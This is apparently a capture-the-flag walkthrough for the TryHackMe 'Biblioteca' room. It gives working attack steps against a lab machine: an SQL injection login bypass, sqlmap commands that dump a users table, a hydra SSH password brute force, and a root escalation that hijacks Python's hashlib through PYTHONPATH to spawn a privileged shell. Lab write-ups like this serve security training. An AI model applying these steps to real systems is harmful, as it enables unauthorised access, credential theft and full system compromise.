# Biblioteca CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Biblioteca** CTF challenge on [TryHackMe](https://tryhackme.com/room/biblioteca). 
---


we see open ports 22 and 80



running feroxbuster but there is nothing interesting



we see a login page, i tried simple SQLi and it worked, we can use this payload `admin' or 1=1 -- -`



we see a information `Hi smokey !!` which might be a username, if we create a new account on website called test we see `Hi test !!`




we can use sqlmap to find that DBMS is MySQL using this command 

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch
```



we can also find all databases by using this command (database is: website)

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -dbs
```



we can list tables in database website using this command (the table is: users)

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website --tables
```



to find columns in table users we can use:

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website -T users --columns
```



to dump whole database we use: 

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website -T users --dump
```



now we see a credentials, and we can try to login to ssh as smokey

it works we have access as smokey, the flag is located in another user folder hazel



now the linpeas shows few ideas to escalate by using Polkit or sudo 1.8.31 but they dont seem to work




the hint for user flag states: `weak password`, so probably the other user has weak password, we can try to use hydra to brute force the login

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt ssh://10.10.X.X
```



it works and now we can login as hazel and we can grab user flag



by looking on sudo -l output we see that we can run the /home/hazel/hasher.py as sudo, we can create our own version of hashlib (python script imports hashlib)



```
$ cd /tmp 
$ mkdir hashlib
$ cd hashlib 
$ nano hashlib.py
$ sudo PYTHONPATH=/tmp/hashlib /usr/bin/python3 /home/hazel/hasher.py

CONTENT of hashlib.py:
import os
os.system('/bin/bash -p')
```

now we have root access and root flag



# MACHINE PWNED
